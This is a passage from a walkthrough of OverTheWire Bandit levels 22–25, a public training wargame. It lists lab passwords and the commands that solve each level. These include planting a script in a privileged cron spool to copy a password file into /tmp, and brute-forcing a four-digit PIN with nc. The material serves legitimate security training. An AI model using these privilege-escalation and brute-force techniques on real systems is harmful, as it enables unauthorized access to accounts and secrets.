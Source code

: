 pwd: `tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q`

## Level 22 -> Level 23

```bash
sshpass -ptRae0UfB9v0UzbCdn9cY0gQnds9GF58Q ssh bandit22@bandit.labs.overthewire.org -p 2220
ls /etc/cron.d/
cat /etc/cron.d/cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user $(whoami) | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

pwd: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

## Level 23 -> Level 24

```bash
sshpass -p0Zf11ioIjMVN551jX3CmStKLYqjk54Ga ssh bandit23@bandit.labs.overthewire.org -p 2220
ls /etc/cron.d/
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
cd /var/spool/bandit24/foo/
vi get_pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/pass_bandit24.txt
:wq!
chmod +x get_pass.sh
ls -l get_pass.sh
cat /tmp/pass_bandit24.txt
exit
```

pwd: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

## Level 24 -> Level 25

```bash
sshpass -pgb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ssh bandit24@bandit.labs.overthewire.org -p 2220
for pin in $(seq -w 0000 9999); do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin"; done | nc localhost 30002
exit
```

pwd: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
